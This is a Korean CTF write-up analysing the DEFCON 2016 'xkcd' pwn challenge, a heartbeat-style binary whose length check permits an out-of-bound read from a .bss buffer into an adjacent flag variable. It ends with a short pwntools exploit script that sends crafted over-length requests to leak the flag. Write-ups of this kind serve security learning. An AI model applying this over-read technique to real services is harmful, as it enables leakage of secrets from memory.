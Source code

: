 ```yaml
---
emoji: 🧻
title: DEFCON 2016 xkcd 취약점 분석
author: Zer0Luck
date: '2020-09-18 02:10:11'
categories: CTF
tags: pwn DEFCON 2016 CTF
---
```

# 취약점 분석


![./0.png](./0.png)

기타 정보
- statically linked, 64 bit
- Heartbeat packet

## 보호기법

- No RELRO
- No Canary found
- NX enabled
- No PIE

## 바이너리 분석

```c
root@e5e68faa5052:/home/Zer0Luck/challenges/xkcd# ./xkcd 
Could not open the flag.

-> 현재 디렉토리에 flag 파일을 생성한 후에 분석을 시도하자
```

## main 함수 분석

![./1.png](./1.png)


- flag 파일의 내용을 읽어와 flag 변수에 집어넣는 것을 확인할 수 있다.

![./2.png](./2.png)

    flag 전역 변수

- flag 변수는 .bss 섹션에 존재하며 전역 변수로 확인된다.
- 사용자의 입력 값을 토대로 특정 조건을 수행하게 되는데 `strtok` 함수를 바탕으로 문자 단위로 짤라 해당 문자열이 포함되는 지를 확인하고 있다.

```c
SERVER, ARE YOU STILL THERE?

IF SO, REPLY "
```

![./3.png](./3.png)

## strtok

- 그후 해당 부분에서 `"` 까지 잘라 해당 문자열의 값을 `globals` 전역 변수에 memcpy를 하는 것을 확인할 수 있다.

![./4.png](./4.png)

## globals 전역 변수

- `globals` 전역 변수는 총 512바이트이며, 같은 .bss 영역이므로 앞에서 선언된 flag와는 0x200차이가 나는 것을 확인할 수있다.

![./5.png](./5.png)

0x200 바이트 차이

![./6.png](./6.png)

## 비교

- strtok `(` `)` 한 내부의 특 정 정수 값을 바탕으로 `__isoc99_sscanf` 함수의 인자로 쓰이는 것을 확인할 수 있다.
- 입력 받은후 `globals` 전역 변수의 길이 값과 `()` 내부에있는 값을 비교하여  `globals` 의 길이가 작을 경우 `()` 입력한 길이 만큼 출력을 한다.
- 만약 더 큰 값을 입력했다면 `Nice Try`를 출력한다.

![./7.png](./7.png)


# 해결 방안 

## 공격

- 어떻게 해당 flag 문자열 값을 읽어올 수 있을까?
- `globals`, `flag` 전역 변수는 같은 .bss 섹션에 존재하며 `globals` 변수를 기준으로 0x200 바이트 차이가 난다.
- 만약에 사용자가 0x200 바이트 이상의 값을 입력하게 된다면 해당 값은 `flag` 전역 변수와 붙게 될 것이고 널값이 존재 하지 않게되 `streln` 은 해당 길이 검사를 할때 널 값을 확인할 수 없어 `flag` 변수의 널 까지 읽게 되어 `globals+flag` 길이를 측적하게 될 것이다.
- 그렇게 되면 `out-of-bound read` 취약점이 발생할 것이다.

```python
from pwn import *
e = ELF("./xkcd")
flag = ''

for i in range(1, 257):
    p = process("./xkcd")
    data = 'SERVER, ARE YOU STILL THERE? IF SO, REPLY "%s" (%d)'%("A"*512, 512+i)
    p.sendline(data)    
    print p.recvline().strip("A")
```

![./8.png](./8.png)

## flag

- flag를 획득할 수 있다.